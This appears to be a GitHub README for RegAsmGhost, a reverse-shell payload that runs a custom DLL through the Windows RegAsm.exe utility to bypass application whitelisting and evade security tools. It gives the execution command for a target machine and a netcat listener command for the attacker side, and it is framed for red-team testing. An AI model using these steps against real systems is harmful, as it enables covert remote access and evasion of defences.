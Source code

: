 # RegAsmGhost
RegAsmGhost is a stealthy reverse-shell payload leveraging the legitimate Windows utility RegAsm.exe for bypassing application whitelisting and evading detection by security tools.

## Description
RegAsmGhost utilizes a technique known as "Living-off-the-Land Binaries" (LOLBins), specifically using RegAsm.exe to execute arbitrary code via .NET assemblies. By invoking a custom DLL through the COM unregistration function (/U switch), RegAsmGhost establishes a covert reverse shell connection back to an attacker-controlled system.

This method is particularly useful for penetration testing, red teaming exercises, or demonstrating potential weaknesses in application whitelisting solutions.

## Usage
First, Adjust the IP address and port number directly in RegAsmGhost.cs to suit your testing environment.
Then, place the compiled DLL on the target machine and execute it using the following command:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\RegAsm.exe /U RegAsmGhost.dll
```

Ensure your listener is active on your attacker machine:
```bash
nc -lvnp 9876
```

## Disclaimer
RegAsmGhost is intended for authorized security testing and educational purposes only. Unauthorized use is strictly prohibited. The author is not responsible for any misuse or damage caused by this tool.

